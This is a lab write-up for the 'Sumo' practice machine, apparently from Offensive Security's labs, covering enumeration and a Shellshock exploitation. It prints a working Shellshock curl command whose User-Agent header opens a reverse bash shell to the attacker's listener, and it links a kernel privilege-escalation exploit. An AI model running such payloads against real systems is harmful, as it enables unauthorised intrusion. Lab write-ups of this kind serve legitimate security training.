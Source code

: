 # Sumo

Machine: [Sumo](https://portal.offensive-security.com/labs/play)\
Difficulty: Warm up

## Enumeration

What ports are open on the machine?
![Results!](screenshots/1.png)


Running a directory scan on the target, we find that it has cgi-bin. Additionally, running Nikto we discover that the target is vulnerable to shell shock.
![Results!](screenshots/2.png)

![Results!](screenshots/3.png)

![Results!](screenshots/4.png)

Now we know that the test.sh script is vulnerable to shellshock, lets run the below command and spawn a reverse shell. Setting up a netcat listener and running the below command allows us to get the reverse shell.\
<pre>curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.49.57/4444 0>&1' http://192.168.57.87/cgi-bin/test/test.cgi</pre>

![Results!](screenshots/5.png)


## Exploitation

### Flags
Local/User:
![Results!](screenshots/6.png)

Root:
To get root, I ran linpeas on the system and found a vulnerable kernel version that will allow us to escalate my privileges. Downloading the script from exploit db, (script)[https://www.exploit-db.com/exploits/33589], you should be able to run it and get root privileges. However, it was taking a long time for my script to run  so I assumed something was wrong. I followed a couple of tutorials online and the script didn't work either. I understood the vulnerability and the exploit, so I did not pursue further to save time.
